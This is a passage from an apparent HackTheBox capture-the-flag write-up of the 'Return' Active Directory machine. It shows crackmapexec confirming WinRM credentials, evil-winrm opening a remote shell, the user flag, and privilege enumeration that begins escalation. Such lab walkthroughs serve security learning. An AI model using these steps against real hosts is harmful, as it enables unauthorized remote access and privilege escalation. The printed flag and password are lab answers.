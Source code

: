 And check with winrm and it pwn3d

```shell
┌──(kali㉿kali)-[~/htb/machine/ad/return]
└─$ crackmapexec winrm 10.10.11.108 -u svc-printer -p '1edFg43012!!'
SMB         10.10.11.108    5985   PRINTER          [*] Windows 10 / Server 2019 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

Connect by winrm and get user flag

```shell
┌──(kali㉿kali)-[~/htb/machine/ad/return]
└─$ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```
User flag: ```19c79d3f4dbaf48bc1daa25220645fd2```

# Privilege Escalation

## See priv and group

First, see priv and group of user ```svc-printer```

```shell
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```
